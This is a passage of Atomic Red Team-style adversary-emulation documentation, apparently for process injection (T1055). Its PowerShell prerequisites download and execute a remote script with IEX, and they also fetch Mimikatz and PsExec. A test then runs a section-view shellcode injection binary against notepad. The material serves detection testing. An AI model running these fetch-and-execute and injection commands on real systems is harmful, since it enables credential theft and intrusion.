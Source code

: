 ##### Get Prereq Commands:

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing)
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases -UseBasicParsing | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$mimikatz_exe = cmd /c echo #{mimikatz_path}
$basePath = Split-Path $mimikatz_exe | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```

##### Description: PsExec tool from Sysinternals must exist on disk at specified location (#{psexec_path})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{psexec_path}") { exit 0} else { exit 1}
```

##### Get Prereq Commands:

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://download.sysinternals.com/files/PSTools.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\PsTools.zip" -UseBasicParsing
Expand-Archive "PathToAtomicsFolder\..\ExternalPayloads\PsTools.zip" "PathToAtomicsFolder\..\ExternalPayloads\PsTools" -Force
New-Item -ItemType Directory (Split-Path "#{psexec_path}") -Force | Out-Null
Copy-Item "PathToAtomicsFolder\..\ExternalPayloads\PsTools\PsExec.exe" "#{psexec_path}" -Force
```

<br/>
<br/>

## Atomic Test #3 - Section View Injection

This test creates a section object in the local process followed by a local section view.
The shellcode is copied into the local section view and a remote section view is created in the target process, pointing to the local section view.
A thread is then created in the target process, using the remote section view as start address.

**Supported Platforms:** Windows

**auto_generated_guid:** c6952f41-6cf0-450a-b352-2ca8dae7c178

#### Attack Commands: Run with `powershell`!

```powershell
$notepad = Start-Process notepad -passthru
Start-Process "$PathToAtomicsFolder\T1055\bin\x64\InjectView.exe"
```
